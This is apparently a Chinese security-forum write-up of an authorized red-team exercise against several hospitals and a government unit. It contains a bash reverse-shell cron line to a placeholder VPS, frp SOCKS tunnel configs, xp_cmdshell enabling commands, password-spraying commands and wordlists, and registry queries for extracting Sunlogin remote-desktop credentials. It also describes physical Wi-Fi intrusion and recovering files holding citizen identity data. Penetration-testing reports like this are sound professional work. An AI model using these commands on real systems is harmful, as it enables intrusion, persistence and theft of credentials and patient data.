

# 奇安信攻防社区-记一次有趣的地市攻防演练经历

### 记一次有趣的地市攻防演练经历

声明：本次所有目标均获得授权，文章内容仅供安全研究人员学习提升所用，请勿用文章内知识用于违法犯罪。文章内容主要记录攻防经历，可能没有太多的干货内容，欢迎师傅们留言交流。

**声明：本次所有目标均获得授权，文章内容仅供安全研究人员学习提升所用，请勿用文章内知识用于违法犯罪。**

# 0x00 写个开头凑字数

这次攻防打的还是比较有意思的，开局电脑摆烂恼火的很，最后没电脑只能拿着销售的电脑疯狂输出。


去拿电脑没一会的功夫我们的私有目标就被干出局了，这次的规则还是有点问题按系统分给各个队伍，不是按照目标单位分的，别人分到我们私有目标的部分系统基础分和数据分薅完一下被干出局了，后面再打只有100路径分，还有老6盯着我们的私有目标打，有个泛微office的洞我们手上没有，目标一放出来就穿了，怪自己太菜了。

排名最后还算理想吧最终排名第三，跟两个技术大哥没后端支撑的情况排到前三还是可以的，前面两位重量级选手卷不过啊，一个提交0day另外一个后端支撑有名的卷，最后前两名分数比我们高出一半多。

废话讲完了，开始我们的内容，码打的严师傅们勿怪，文章最后欢迎师傅们留下评论来交流。

# 0x01 目标

## 某医院外网弱口令

第一天分了私有目标和公共目标，这个目标是公共池目标，运气也是比较好外网一个弱口令直接进去了，主要就是要知道IP地址，突破到内网这里没啥技术含量，目标给的是一个官网的地址，估计其他队伍的师傅们都去冲云上官网那个IP了，后面云上的我们也通过信息科专用共享服务器上密码文件拿到了所有权限。

### 攻击路径


下面我会按照上面图上标记的序号说明内网攻击过程

### 路径1/路径2 外网弱口令

这里说下这个目标IP怎么来的，通过IP地址收集C段信息找到h3c设备，默认审计账号密码登陆上去命令控制台查看对应授权信息确定是目标IP地址，但是审计账号没有配置权限没法做vpn隧道这些，所以做了个全端口扫描发现一个非标准端口的ssh弱口令，这里拿到服务器权限后我先做了一个反弹shell计划任务。

crontab -e编辑计划任务

```php
bash -c 'exec bash -i &>/dev/tcp/you vps ip/you vps port <&1'
```

做完计划任务之后我才上fscan扫描，发现内网很多ssh、mssql弱口令，ssh反弹shell计划任务又做了几台，防止一会动作太大掉了。



内网弱口令一薅一大把，建个frp方便一会去内网翻东西，下载对应编译好的版本就可以。

项目地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp/releases/download/v0.37.1/frp_0.37.1_linux_amd64.tar.gz)

frp server

```php
[common]
bind_port = 8945
```

frp client

```php
[common]
server_addr = you vps ip
server_port = 8945
tls_enable = ture
pool_count = 5

[plugin_socks]
type = tcp
remote_port = 35145
plugin = socks5
# 认证 免认证把下面两行去掉
plugin_user = admin
plugin_passwd = Admin@123
use_encryption = true
use_compression = true
```

vps上执行

```php
./fprs -c frps.ini
```

跳板机上执行

```php
./fprc -c frpc.ini
```

确定连接没问题之后nohup &到后台，这里如果用的腾讯云或者阿里这种vps一定记得端口组里面开启对应的端口，否则连接不上，proxifier确定代理可用。


### 路径3 运维机器

这里通过刚才fscan扫描到的mssql弱口令打的一台运维终端主机

```php
# 开启xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp_cmdshell', 1;RECONFIGURE;
# 命令执行
exec master..xp_cmdshell "whoami"
```

相关文章

[https://www.cnblogs.com/websecyw/p/11016974.html](https://www.cnblogs.com/websecyw/p/11016974.html)

确定命令正常执行是个system权限，certutil下载木马上线，抓出密码后确定管理员不在线远程到桌面。


### 路径4 服务器所有权限

远程到终端上面才知道这台机器是运维的机器，终端上面打开了sql server连接软件，同样使用上面的命令开启xp\_cmdshell执行命令，这里sql server数据库做了降权操作，权限是sqlserver服务权限。


这里上马子的时候一直有问题权限太低了，上面有火绒企业版开启了系统加固，temp目录写文件写不进去，只拿了sqlserver权限，后面测试了下关闭火绒还是不行，应该是本来sqlserver权限就比较低，后面发现火绒控制台可以分发文件自动执行马子就没管了，这个可以后面复现下环境研究下。


查看浏览器保存的密码，火狐浏览器里面保存了火绒控制台的账号密码，还有其他一些平台的账号密码，密码收集一下一会可以撞密码。


everything文件搜索关键字，不管服务器还是终端的文件都仔细翻下，说不定就有意外收获。

```php
密码|信息科|资产表|拓扑|账号|设备|pass|user|config|管理|规划
```

ereryting高级用法（正则表达式），也可以使用content搜索文件内容，文件内容搜索比较慢。

ererything相关文章 [https://www.jianshu.com/p/9c0ab75a264f](https://www.jianshu.com/p/9c0ab75a264f)

在电脑上找到了设备密码信息还有拓扑信息


设备服务器所有信息


基本上是所有的网络设备和服务器权限了，这里整理下密码去撞一下密码，在整理密码的的时候发现这个密码是有规律的密码，梳理一下密码的规律使用社工密码生成脚本去生成一些密码。

工具下载地址：[https://github.com/cityofEmbera/CPassword](https://github.com/cityofEmbera/CPassword)

工具使用比较简单，我们只需要修改username.txt里面的名字就可以了，dict.txt里面有自带的规则，我们也可以稍作修改，比如增加一下密码里面自带的一些规律，还有最近的年份信息，比如：

```php
@2013
@2014
@2015
@2016
@2017
@2018
@2019
@2020
@2021
@2022
#2013
#2014
#2015
#2016
#2017
#2018
#2019
#2020
#2021
#2022
123!@#
!@#123.
@233
!@#345
!@#qwe
```

**python3 createDict.py**就会自动生成密码文件，密码保存在createdict.txt文件里面，密码生成后丢给kscan指定密码文件去撞密码。

```php
kscan.exe -t 10.0.0.0/8 --hydra --hydra-pass file:pwd.txt
```

### 路径5 火绒控制台文件分发

这里就是使用火绒控制台分发文件的功能直接下发文件，这里也是神奇哈文件分发后居然自动执行了，牛呀牛呀


火绒控制台这里不知道为啥我的浏览器一开控制台直接卡死，找J师傅给我看的，文件直接分发下去


装了火绒的机器全部上线，有些内网机器没上线，这里CS 4.3有问题选择中转监听器生成文件生成不了


  
看了下有一台靶标机器也在，芜湖分数基本算拿满了，服务器、网络设备、终端的分再加上回收站翻到的带公民身份信息的数据4w条，6k分到手了

### 路径6 云上资产

这里打到一台信息科共享服务器是通过刚才收集到的口令撞密码撞出来的，还有上面sqlserver弱口令也可以执行命令，因为前面sa弱口令实在太多了，没一个一个去打，这里有口令直接使用工具打一下上线


随便翻了下文件发现E盘有个信息科专用文件夹点开一看好家伙云上的资产也拿到了


### 路径7 域名权限

用刚才的账户密码登陆获取域名解析权限


云服务器权限，其中一台服务器是官网服务器，是其他队伍的靶标直接拿了


### 路径8 云服务器权限

直接阿里云控制台登陆上去用c2生成powershell上线


## 某综合医院

这个目标是开始后的第三天晚上开放社工还有近源搞的

### 攻击路径


### 路径1 wifi口令

开放社工和近源那天立马就去报名了，吃完饭换掉工作服拿着手机就冲去医院了，之前手机上刷了kali nethunte，编译了一些arm版本的工具完全够用了，只要在内网建立个立足点就可以了。

到现场之后打开wifi万能钥匙搜索附近的wifi


连上wifi确定可以通到靶标IP地址，微信扫描二维码密码取出来，一会内网再撞一下密码。


登陆网关地址发现是h3c出口设备，弱口令登陆到设备上面有网段信息根据网段信息去扫描对应的网段


### 路径2 向日葵rce

kscan指定wifi密码文件撞下3389、22、1433这些脆弱端口的密码，拿到了一台内网机器和一台外网机器。

外网机器有向日葵rce漏洞，whoami之后好像把向日葵打挂了（这里不知道什么问题，没找到原因），后面执行命令一直 不回显


用密码远程登陆上去发现向日葵一直重新连接状态退出重新开还是一样的，把马子上好之后以防万一装个todesk一会远程弄


### 路径3 靶标机器

通过刚才外网跳板机todesk远程，直接扫内网服务器网段撞密码撞出一台机器，发现服务器上装了todesk，保存了三台靶标机器的todesk远程，美滋滋a


加上刚才终端his系统上的数据，6k分打满了

## 某专科医院

这个医院当时晚上去的关门了，第二天早上一大早过去了，这个医院进去有点尴尬和社死，当时过去没先查下这个医院是什么类型医院，门口没wifi只有进去了，进去的时候门口医生还是门卫问我挂什么科。

男科？妇科？

我：？？？

然后又看了看我脖子上有点过敏，说挂皮肤科吗？

我：啊 对对对 皮肤科

进去之后一搜这个医院信息，我敲了这好像是个专科医院懂得都懂

进去正常挂号在那边等，这个医院好像没专门皮肤科的医生，挂完号让我等了一个多小时，打开手机坐着连上wifi开始扫内网


没等到医生，拿了个跳板机上了马子就溜溜球了，内网只有一个孤儿机器

### 攻击路径


### 路径1 wifi口令

同样wifi万能钥匙进去

### 路径2 靶标机器

这里扫描内网发现了一个ms17010是一个win2012的机器，手机上msf直接单命令执行试试。


机器上有360加账号加不上，certutil试了下机器上没有，看了下有向日葵的进程，那么我们可以直接读取他的配置文件解密直接远程到机器上。

配置文件路径

```php

安装版：C:\\Program Files\\Oray\\SunLogin\\SunloginClient\\config.ini

便携版(绿色版)：C:\\ProgramData\\Oray\\SunloginClient\\config.ini
```

尝试了下没有这两个文件


应该是高版本的，可以试试注册表里面找，看了下有360希望别拦截

```php
# 注册表查询
reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginInfo

reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginGreenInfo
```


芜湖没拦截，抓出来直接丢工具里面解密

向日葵解密工具地址：[https://github.com/wafinfo/Sunflower\_get\_Password](https://github.com/wafinfo/Sunflower_get_Password)

工具使用比较简单，git下来pip安装好unicorn，然后python3执行输入刚才我们注册表里面获取到的encry\_pwd字段，根据提示输入到脚本里面


验证下可以连接，直接向日葵远程拿到主机的权限，溜溜球了

## 某ZF单位

这个单位没啥东西，这是最后几天跑了ZF街趴墙角一个一个单位薅这个算一个案例吧，拿到了出口设备可以搭建vpn，直接启用l2tp搭建隧道进入内网，为了保住前三的位置拼尽全力了。

### 攻击路径

这个没截图，可以看下面的文章，关键的步骤这里。


参考文章：

[https://zhiliao.h3c.com/questions/dispcont/146895](https://zhiliao.h3c.com/questions/dispcont/146895)

[https://baijiahao.baidu.com/s?id=1716025203844234922&amp;wfr=spider&amp;for=pc](https://baijiahao.baidu.com/s?id=1716025203844234922&amp;wfr=spider&amp;for=pc)

如果vpn搭建不起或者设备没vpn授权，但是有nat和telnet功能，你有足够的耐心的话也可以参考我之前文章的思路，通过telnet去测试内网的脆弱端口映射到外网，写个脚本去批量测试提高效率，上次比赛回来没来的及写。

文章地址：[https://forum.butian.net/share/1633](https://forum.butian.net/share/1633)

# 0x02 总结

这次突破到内网没啥干货，主要是内网横向这块这次攻防遇到的一些东西，在第一个医院拿靶标的系统的时候从运维机上xp\_cmdshell攻击靶机，sqlserver数据库做了降权操作temp目录写不了，一直拿不下上面的靶标系统，后面是通过火绒控制台分发文件上线的，其实最开始就已经拿到火绒控制台了，没有去用这个功能怕影响太大了，后面实在没办法了才用，自己会的sqlserver利用姿势还是太少了还得学习，后面基本上都是些社工的东西，划水划到的第三名，电脑坏了拿销售电脑打太费劲了大半时间配置环境

最近也看到一篇关于sqlserver比较好的文章分享一波，社区师傅们姿势多的

[https://forum.butian.net/share/1390](https://forum.butian.net/share/1390)

最近打攻防总结的一些东西，欢迎师傅们来交流

一些技巧总结：

外网打点

-   资产收集 ENScan\_GO
    
-   空间绘测 fofa/360quake/shadow/zoomeye/hunter
    
-   kunyu/fofa\_viewer/infoSearchAll
    
-   轻量扫描器
    
    -   kscan 服务识别 可以配合fofa快速识别
    -   fscan c段快速识别
-   子域名对应IP C段资产快速扫描
    
    -   子域名信息收集 oneforall/subfinder/ksubdomain
    -   快速筛选真实IP生成C段 Eeyes
-   web指纹识别
    
    -   EHole 很好的一个工具，可以二开下增加指纹和空间绘测引擎接口
    -   tide潮汐指纹web在线检测
    -   TideFinger
    -   httpx 获取网页标题状态码

内网主机信息收集

-   everything文件搜索（正则表达式提高效率）
-   浏览器保存的密码/微信/QQ文件夹/回收站/共享盘/邮件软件/协同软件
-   远程软件保存的远程连接 mstsc/内网通/向日葵/todesk等

内网常见漏洞

-   向日葵rce（向日葵真的爽）
-   weblogic
-   s2
-   redis
-   shiro
